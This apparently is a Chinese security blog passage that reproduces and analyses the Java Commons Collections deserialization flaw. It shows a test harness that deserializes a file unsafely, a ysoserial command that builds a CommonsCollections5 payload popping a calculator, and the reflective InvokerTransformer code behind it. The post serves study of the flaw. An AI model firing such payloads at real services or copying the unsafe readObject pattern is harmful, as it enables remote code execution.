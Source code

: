 ```java

    public static void serialize(Object obj) {
        try {
            ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("test.ser"));
            os.writeObject(obj);
            os.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void deserialize() {
        try {
            ObjectInputStream is = new ObjectInputStream(new FileInputStream("test.ser"));
            is.readObject();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

}
```
# 漏洞复现
使用ysoserial生成payload
```
java -jar ysoserial-master-30099844c6-1.jar CommonsCollections5 calc > test.ser
```
![20200119192547](https://y4er.com/img/uploads/20200119192547.png)
成功弹出计算器。

# 漏洞分析
在 [ysoserial的payload](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java) 中，我们可以看到问题出在 org.apache.commons.collections.functors.InvokerTransformer，在这个类中实现了Serializable接口，并且有一个transform方法。
```java
public Object transform(Object input) {
    if (input == null) {
        return null;
    } else {
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
            return method.invoke(input, this.iArgs);
        } catch (NoSuchMethodException var5) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException var6) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException var7) {
            throw new FunctorException("InvokerTransformer: The method '" + this.iMethodName + "' on '" + input.getClass() + "' threw an exception", var7);
        }
    }
}
```
这明显是反射的用法，使用transform方法我们可以调用Runtime类执行命令
